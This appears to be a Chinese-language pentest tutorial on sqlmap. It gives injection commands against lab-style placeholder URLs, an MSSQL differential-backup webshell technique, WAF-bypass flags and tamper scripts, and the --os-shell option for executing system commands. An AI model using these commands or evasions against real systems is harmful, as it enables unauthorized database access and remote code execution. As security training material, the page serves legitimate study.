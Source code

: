 ## SQLMap怎么对一个注入点进行注入？

1、get类型注入，直接sqlmap -u url地址
2、post类型，（1）sqlmap -u url --data=post的参数 （2）sqlmap -r 请求数据包的文件地址

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

3、header注入，sqlmap -r 请求数据包的文件地址
注：在进行post注入或header注入时，可以使用*标记注入点

## MSSQL差异备份怎么getshell

前提条件：
1、MSSQL具体dbo和sa权限（数据库备份权限）
2、支持堆叠查询
3、知道网站绝对路径
实现原理
完整备份后，再次对数据库进行修改，差异备份会记录最后的LSN，将shell写入数据库，备份成asp即可getshell。

## SQL注入Bypass（过waf）思路

1、内联注释绕过
2、填充脏数据绕过
3、更改请求方式，如GET改为POST
4、随机agent绕过
5、fuzz过滤函数，函数替换绕过
6、sqlmap,tamper脚本绕过----上述思路



## **对于需要登录的网站，我们需要指定其cookie**

##### 我们可以用账号密码登录，然后用`bp`抓取其cookie填入

```
sqlmap -u  "http://xxx/sqli/Less-1/?id=1"   --cookie="抓取的cookie"
```

##### **对于是post提交数据的URL，我们需要指定其data参数**

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

##### 下面是sqlmap参数绕过waf的一些命令

```
#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

有些时候网站会过滤掉各种字符，可以用tamper来解决（对付某些waf时也有成效）

sqlmap 官方提供了70个绕过脚本（不是53个，我的版本是1.7.3.4），脚本目录在`/usr/share/sqlmap/tamper`中

指定单个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper=space2plus.py 
```

指定多个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper="space2comment.py,space2plus.py"
```

## 探测等级和危险等级(—level —risk)

sqlmap一共有5个探测等级，默认是1。等级越高，说明探测时使用的payload也越多。其中5级的payload最多，会自动破解出cookie、XFF等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置level为5

## 执行操作系统命令(—os-shell)

在数据库为MySQL、PostgreSql或者SQL Server时，可以通过sqlmap执行操作系统命令

**当为MySQL数据库时，需满足下面条件：**

- 当前用户为 root

- 知道网站根目录的绝对路径

- ```
  sqlmap -u "http://xxx:7777/Less-1/?id=1" --os-shell
  ```

  
